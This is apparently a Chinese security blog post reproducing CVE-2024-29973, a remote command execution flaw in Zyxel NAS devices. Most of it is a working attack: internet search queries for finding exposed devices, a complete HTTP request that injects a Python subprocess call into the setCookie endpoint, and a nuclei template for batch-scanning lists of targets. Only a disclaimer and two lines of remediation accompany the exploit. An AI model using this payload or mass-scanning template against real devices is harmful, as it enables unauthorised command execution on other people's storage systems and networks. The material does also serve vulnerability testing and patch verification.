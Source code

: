 #  【漏洞复现 | 含批量POC】Zyxel-NAS设备 setCookie 远程命令执行漏洞   
小明同学  小明信安   2024-06-23 14:11  
  
**0x01 免责声明**  
  
disclaimer  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。信息及工具收集于互联网，真实性及安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
**0x02 漏洞介绍**  
  
Vulnerability introduction  
  
       
Zyxel-NAS设备/cmd,/simZysh/register_main/setCookie  
接口存在任意命令执行漏洞。攻击者可以通过漏洞执行任意命令从而获取服务器权限，可能导致内网进一步被攻击。  
  
        CVE编号：CVE-2024-29973  
  
**0x03 搜索语法**  
  
Search for syntax  
  
- Fofa：  
  
  
```
body="/cmd,/ck6fup6/user_grp_cgi/cgi_modify_userinfo"
```  
  
- Hunter  
  
  
```
body="/cmd,/ck6fup6/user_grp_cgi/cgi_modify_userinfo"
```  
  
- Quake  
  
  
```
body="/cmd,/ck6fup6/user_grp_cgi/cgi_modify_userinfo"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSI4UQBUiayqBlv7nC0Uic3Vd6eO7Kw2uzqrtUd1R61ZYALibMNzialibX6TNkcpIh9Ju6z37WITMGjH6Jg/640?wx_fmt=png&from=appmsg "")  
  
**0x04 漏洞复现**  
  
Request packets  
  
- 请求接口执行任意命令  
  
```
POST /cmd,/simZysh/register_main/setCookie HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHHaZAYecVOf5sfa6
 
------WebKitFormBoundaryHHaZAYecVOf5sfa6
Content-Disposition: form-data; name="c0"
 
storage_ext_cgi CGIGetExtStoInfo None) and False or __import__("subprocess").check_output("id", shell=True)#
------WebKitFormBoundaryHHaZAYecVOf5sfa6--

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSI4UQBUiayqBlv7nC0Uic3Vd6PlpdEPuqEiamTkT9aJJ85ojRyS2JsDxxRkIF5j7zbTkZYwMNnUqVR8g/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 nuclei POC**  
  
nuclei POC  
  
- Nuclei 批量检测POC  
  
- 所用方法nuclei.exe -l 网址文件.txt -t POC.yaml  
  
```
id: Zyxel-NAS_setCookie_RCE

info:
  name: Zyxel-NAS_setCookie_RCE
  author: security-xm
  severity: high
  description: Zyxel-NAS设备 setCookie 远程命令执行漏洞 (CVE-2024-29973)
  metadata:
    max-request: 1
    shodan-query: ""
    verified: true

http:
- raw:
  - |+
    @timeout: 30s
    POST /cmd,/simZysh/register_main/setCookie HTTP/1.1
    Host: {{Hostname}}
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHHaZAYecVOf5sfa6
    Content-Length: 240

    ------WebKitFormBoundaryHHaZAYecVOf5sfa6
    Content-Disposition: form-data; name="c0"
    
    storage_ext_cgi CGIGetExtStoInfo None) and False or __import__("subprocess").check_output("id", shell=True)#
    ------WebKitFormBoundaryHHaZAYecVOf5sfa6--

  max-redirects: 3
  matchers-condition: and
  matchers:
    - type: word
      part: body
      words:
        - uid

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WfB6o4vicwSI4UQBUiayqBlv7nC0Uic3Vd6qDiaf6w6EE1wtiabibgf7FO0DhnOMibWVia7PmibAHOiaE5jAw4Or2yH9fQfg/640?wx_fmt=png&from=appmsg "")  
  
  
**0x07 修复建议**  
  
Remediation recommendations  
  
- 在Web应用防火墙中添加接口临时黑名单规则  
  
- 联系厂商打补丁或升级版本。  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/WfB6o4vicwSISMoBvibVByMUlExr9ibqmnwWAbwiaNjO1XPzIHNbfEIfgfSHeJqDSHqIw8pXKSdgic1vSia8HhntX5lw/640?wx_fmt=gif&from=appmsg "")  
  
  
